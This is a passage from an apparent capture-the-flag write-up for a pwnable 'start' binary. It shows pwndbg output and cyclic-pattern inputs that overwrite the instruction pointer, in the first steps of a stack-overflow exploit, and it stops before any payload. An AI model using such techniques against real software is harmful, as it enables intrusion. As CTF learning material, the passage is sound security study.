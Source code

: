 ```bash
   0x08048093 <+51>:    mov    dl,0x3c
   0x08048095 <+53>:    mov    al,0x3
   0x08048097 <+55>:    int    0x80
   0x08048099 <+57>:    add    esp,0x14
   0x0804809c <+60>:    ret
End of assembler dump.
```

```bash
pwndbg> run
Starting program: /mnt/c/Users/hzqzz/Downloads/pwnable/start
Let's start the CTF:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────
 EAX  0x3c
 EBX  0
 ECX  0xffffcae4 ◂— 0x41414141 ('AAAA')
 EDX  0x3c
 EDI  0
 ESI  0
 EBP  0
 ESP  0xffffcafc ◂— 0x41414141 ('AAAA')
 EIP  0x41414141 ('AAAA')
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
Invalid address 0x41414141


───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ esp 0xffffcafc ◂— 0x41414141 ('AAAA')
... ↓        7 skipped
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► 0 0x41414141 None
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Looks like just a basic stack overflow. When I run the file and input bunch of A's, the A's has overwrite some of the instruction pointer. Now we want to determine the value of the offset.

```bash
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> run
Starting program: /mnt/c/Users/hzqzz/Downloads/pwnable/start
Let's start the CTF:aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616166 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────
 EAX  0x3c
 EBX  0
 ECX  0xffffcae4 ◂— 0x61616161 ('aaaa')
 EDX  0x3c
 EDI  0
```